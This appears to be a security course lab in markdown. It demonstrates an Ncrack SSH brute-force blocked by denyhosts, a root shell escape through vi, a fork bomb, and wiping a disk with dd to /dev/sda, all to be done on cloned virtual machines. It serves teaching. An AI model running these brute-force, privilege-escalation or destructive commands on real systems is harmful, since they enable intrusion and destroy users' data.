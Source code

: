 # **Lab 07:** Analyze and Differentiate Types of Attacks and Mitigations Techniques

## **Bruteforcing SSH**

### **Demostrate Ncrack Against denyhosts**

**From Target Machine**
- Open Terminal
- Verify that the SSH service is running
```
~$ ps -eaf | grep -v grep | grep sshd
```
- Verify that the service **denyhosts** is not running
```
~$ service denyhosts status
```
- Based on the denyhosts.conf file, check to see where it places denied hosts.
```
~$ sudo grep HOSTS_DENY /etc/denyhosts.conf | grep -v "#"
```
**From Attacking Machine**
- Open Terminal
- Test SSH connection to the target system
```
~$ ssh name@ipaddress "uptime"
```
**From Target Machine**
- Open Terminal
- Grep the log entry recorded from the SSH connection that was initiated by the attacker.
```
~$ grep “Accepted password” /var/log/auth.log | grep “Attacker'sIP”
```
**From Attacking Machine**
- Open Terminal
- Initiate the Ncrack tool against target's SSH service, using a predefined password list.
```
~$ ncrack –v Target's IP -- user root –P /tmp/wordlists/passlist –p ssh
```
**From Target Machine**
- Open Terminal
- Start the denyhosts script
```
~$ sudo service denyhosts start
```
**From Attacking Machine**
- Open Terminal
- Attempt to SSH to the target's system with the credentials gained from the Ncrack tool
```
~$ ssh name@Target'sIP
```
- Might notice now how the connection is being automatically closed by the remote system.
- If so, determine if the IP address is being blocked or if SSH traffic is being blocked.
```
~$ telnet Target'sIP 22
```
- Noticing the output, we can determine that the IP address is being blocked since the remote host is still listening on port 22

**From Target Machine**
- Open Terminal
- View the contents of the **hosts.denyfile**
- Notice that the file is populated with the IPaddress belonging to the attacking system. 
- It can be concluded that the denyhosts service has blocked Attacker’s IP address based on its attempt to force itself an SSH connection with the remote system.
- Analyze the auth.log file for failed password attempts (case sensitive).
```
~$ grep “Failed password” /var/log/auth.log | grep “203.0.113.2”
```
- Notice the failed attempts created by the Ncrack application.

### **Unblock Kali**

**From Target Machine**
- To remove the blocked entry from the hosts.deny file, temporarily stop the rsyslogservice.
```
~$ sudo service rsyslog stop
```
- Stop the denyhosts service.
```
~$ sudo service denyhosts stop
```
- Edit the hosts.deny file by removing the Attacker's IP entry.
```
~$ sudo nano /etc/hosts.deny
```
- Use your arrows keys to navigate to the IP entry and press Backspace to erase the entire line: “sshd: Attacker's IP”
- Once modified, press CTRL+X to exit.
- When asked to save modified buffer, press the Ykey for Yes.
- Press Enter to confirm the filename as /etc/hosts.deny

## **Dangerous Linux Commands**

### **Exploiting sudo with vi Editor**

- Escalate to root privileges.
```
~$ sudo su
```
- Create and edit the hacksrus.txt file**
```
~$ vi hacksrus.txt
```
- Once in the **vi** editor, type the command below.
```
:!/bin/sh
```
- The input is recorded at the bottom of the **vi** editor.
- Press Enter.
- After the command is entered, you’ll be presented with the ‘ # ‘ prompt.
- Type *id* followed by pressing the Enter key.
- This command will print the current user
- Notice that you are running a shell as root.
- Type whoami to confirm you are the user root. Press Enter.
- Type exitfollowed by pressing the Enter key to close the shell.
- Press the Enterkey once more.
- Notice the prompt returns to the **vi** editor, type the command below followed by pressing the Enter key to quit.
```
:q!
```
- While in the terminal, type the command below to analyze the log file showing privileges being escalated to root.
```
~$ grep sudo /var/log/auth.log | tail -l
```
## **Demonstrate DOS Attack**
### **Warning:** Do not attempt this section of the lab on a personal computer.  It will cause serious harm to a machine, resulting in an inoperable state.
- ### **Be sure to clone your Virtual Machine before continuing.**

### **From Virtual Machine**
- Monitor live CPU and memory usage within a terminal window. Enter:
```
~$ htop
```
- Open a new terminal window
- Make sure to arrange the display of the new terminal window where you can see both terminals side-by-side.
- In the new terminal window, type the command below to initiate a “fork bomb” attack on the VM. 
```
~$ :(){ :|: & };:
```
- Watch closely at the terminal window with **htop** running.
- After 3-4 minutes, notice how the CPU usage spikes, reaching almost 100% while both memory and swap memory are spiking as well.
- What is happening here is that the Virtual Machine is running out of memory by forking a process infinitely.
- In other words, it is making multiple copies of itself that is setting off a chain reaction resulting in quickly exhausting the system’s resources.
- Because the system is overwhelmed, the **htop** application may be slow and unresponsive.
- Keep an eye on the Uptime value and see whether it is incrementing. If it is not, it is unresponsive. You may proceed to the next step.
- When you are finished analyzing the “fork bomb” operation, shutdown the Virtual Machine.

## **Destroying the HDD with dd**
### **Warning:**  Do not attempt this section of the lab on a personal computer. It will cause serious harm to a machine resulting, in an inoperable state. 
- ### **Be sure to clone your Virtual Machine before continuing.**

### **From Virtual Machine**
- Open a terminal
- Run **iotop** to actively monitor disk I/O activity
```
~$ sudo iotop
```
- Open another new terminal window.
- Position both terminal windows so that both can be viewed at the same time.
- Type the command below to mimic an HDD attack if an attacker had access to a physical machine within a network infrastructure.
```
~$ sudo dd if=/dev/zero of=/dev/sda
```
- Notice on the Terminal running **iotop**, a heavy I/O activity is taking place.
- Wait 1-3 minutes until the system crashes.
- Power down VM
- Power on VM
- Wait 1-3 minutes until a message appears showing that no operating system is available.
- The **dd** command has been successful in such a way that the damage has been done.
- The command process kept writing random zeros on the partition *sda* to the point where it can no longer function because of the overwritten files.